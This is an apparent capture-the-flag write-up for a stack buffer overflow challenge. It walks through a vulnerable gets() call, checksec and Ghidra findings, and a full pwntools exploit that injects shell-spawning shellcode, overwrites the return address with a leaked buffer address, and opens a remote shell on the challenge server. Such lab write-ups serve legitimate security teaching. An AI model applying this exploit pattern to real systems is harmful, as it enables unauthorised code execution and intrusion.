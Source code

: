 # Reconnaissance
## C Review
The `main()` function looks pretty plain, the use of `fgets()` protects the `sample` buffer from overflowing, so there is no vulnerability in that. But the last part of `main()` calls another function, `vuln()`. `vuln()` calls `gets()` to write into the `buf` variable, allowing us to over flow, which is an obvious attack vector. However, there is no function call to overwrite here, and no `win()` function to change the return address to. But, the `vuln()` does print something, and it leaks the address of `buf`! What this means is that we can put our own shellcode into `buf` and then overflow into the return address, changing this to the address of `buf` so that we call our own code.

## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_3

>Arch:     amd64-64-little  
>RELRO:    Full RELRO  
>Stack:    No canary found  
>NX:       NX disabled
>PIE:      PIE enabled  
>RWX:      Has RWX segments  
A couple things to note here: firstly, stack canary is disabled which will make things easier and NX is disabled which means there is no protection stopping our own code from executing. PIE is enabled, so we will need to use the address leaked in the `vuln()` function to know where `buf` is. Additionally there are RWX segments, which is what allows our code to execute. There is also Full RELRO, which I don't fully understand myself, but I believe that it prevents buffer overflow attacks from going to other FUNCTIONS, but won't stop us from redirecting the return address to inside of the buffer.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function.  

![Ghidra Vuln Function Image](writeUpFiles/ghidra1.png)  

Looking into Ghidra we can see that `local_78` is the buffer, and it is located at memory address -0x78 on the stack--which means it has a length of 112 bytes. That's the most significant information we can get from Ghidra, since PIE is enabled and memory addresses here will not be absolute.  

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_3")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13373)
	return r
```
The `ELF()` function from `pwn` allows us to add information about the binary to our `pwn` context, and we set the `log_level` to "DEBUG" so that we will get verbose output from all of the functions describing what was received or sent. The `conn()` function being set up here simply allows us to minimally change the program to run remotely when we are finished with testing. Calling `conn(True)` connects to the local installation of the server executable, whose path is written in the definition of the `EXE` variable. Then once our testing is completed, we can call `conn(False)` to make a connection to the remote server.

Next, we get the input from the process and find the address of `buf`:
```{python}
io = conn(False)
# Wait for the process to send "One more time" and respond to move onto vuln()
io.recvline()
io.send(b'a\n')

# Wait for the program to leak the address of the buffer we are writing to:
io.recvuntil("No really, it was pretty good before COVID: ")
data = io.recvline()[:-1]
buf_address = int(data, 16)
```

Finally, we craft and send our payload:
```{python}
# Create a payload with an offset of 120 bytes then the address of the buffer send it, and open an 
# interactive terminal -- The system is 64-bit so we need a 64-bit pointer to the address of buf.
# This offset is 120 bytes because buf is 112 bytes, and the base pointer between the buffer and
# the return address is an additional 8 bytes (64-bit system)
payload = asm(shellcraft.sh())
payload += b'a'*(120-len(payload))
payload += p64(buf_address)+b'\n'
print(len(payload))
io.send(payload)
io.interactive()

io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!
